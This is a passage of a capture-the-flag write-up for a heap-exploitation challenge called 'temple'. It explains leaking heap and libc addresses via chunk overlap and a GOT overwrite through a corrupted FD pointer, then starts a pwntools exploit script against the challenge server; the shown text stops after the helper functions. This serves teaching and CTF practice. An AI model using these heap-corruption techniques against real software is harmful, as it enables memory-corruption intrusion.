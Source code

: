 ### Heap Leak

The metadata chunk contains some important pointers regarding the size of our data, pointer to our data and a
string called "Neonate". When we overlap using the backward consolidation technique, we automatically affect the size field
of our data. So when we print the data, it uses a size variable from the metadata chunk to see how many bytes to print,
instead of using just some string function to print (which automatically stops at "\x00").

So fgets() and a NULL byte cannot stop us from leaking.
We can thus leak address `0x21bd2b0` , which technically is a metadata chunk, has been overlapped with a data chunk.

### Libc Leak

The string called "Neonate" is actually printed everytime we free. So we can overwrite that with a got address.

### Exploit

(Thanks to rex for making me realise something really stupid that I missed. )
Finally, we overwrite the `FD` pointer of the chunk and make it point to a GOT address instead of our normal heap data chunk.
Then we can use the `rethink` function to edit it. (Thanks rex for making me realise this......Partial RELRO is just LOLZZZ)

```python
#!/usr/bin/python
from pwn import *

#p = process("./temple")
elf = ELF("./libc.so.6")
p = remote("temple.tuctf.com", 4343)
raw_input()

def menu():
	p.recvuntil("choice:")

def give_wisdom(length,wisdom):
	menu()
	p.sendline("2")
	p.recvuntil("hold?:")
	p.sendline(str(length))
	p.recvuntil("wisdom?:")
	p.sendline(wisdom)

def take_wisdom(idx):
	menu()
	p.sendline("1")
	p.recvuntil("seek?:")
	p.sendline(str(idx))
	leak = p.recvuntil("\n")
	return leak

def rethink(idx,wisdom):
	menu()
	p.sendline("3")
	p.recvuntil("rethink?:")
	p.sendline(str(idx))
	p.recvuntil("differently?:")
	p.sendline(wisdom)

buf = "A"*32
give_wisdom(32,buf)	# 8
```